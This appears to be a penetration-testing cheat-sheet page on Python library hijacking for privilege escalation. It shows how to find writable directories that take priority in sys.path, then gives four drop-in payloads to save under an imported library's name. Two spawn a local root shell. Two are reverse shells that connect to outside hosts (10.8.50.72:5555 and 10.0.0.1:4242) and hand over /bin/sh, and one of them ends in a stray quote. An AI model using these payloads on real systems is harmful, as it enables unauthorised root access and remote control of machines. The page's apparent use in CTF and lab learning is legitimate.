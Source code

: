 # Library Hijacking

### Verification

* Possibility to run a Python script as root.
* The Python script must import at least one library. Example: `import sys`.
* Check the PATH to import Python libraries:

```bash
python # python3
>>> import sys
>>> sys.path
['', '/usr/lib/python310.zip', '/usr/lib/python3.10', '...']
```

If we see that at the beginning there is `["`, it means that when searching for the libraries, it will start from the current directory, and if it does not find it, it will continue with the other PATHS.

There may also be cases (mostly in CTF) where you may find paths that have write permissions and have priority over other legitimate paths:

```bash
['/tmp', '/usr/lib/python310.zip', '/usr/lib/python3.10']
```

### Privilege Escalation

Create the malicious code with the name of the imported library:

{% tabs %}
{% tab title="#1" %}
{% code title="<LIBRARY_NAME>.py" %}
```python
import subprocess
result = subprocess.run(['bash'])
result.stdout
```
{% endcode %}
{% endtab %}

{% tab title="#2" %}
{% code title="<LIBRARY_NAME>.py" %}
```python
import os
os.setuid(0)
os.system("/bin/bash")
```
{% endcode %}
{% endtab %}

{% tab title="#3" %}
{% code title="<LIBRARY_NAME>.py" %}
```python
import socket,subprocess,os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.8.50.72",5555))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```
{% endcode %}
{% endtab %}

{% tab title="#4" %}
{% code title="<LIBRARY_NAME>.py" %}
```python
import socket,os,pty

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.0.0.1",4242))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
pty.spawn("/bin/sh")'
```
{% endcode %}
{% endtab %}
{% endtabs %}

We place the payload in the corresponding directory (it can be the current directory or another one). Finally, we execute the Python script as root and that's it.
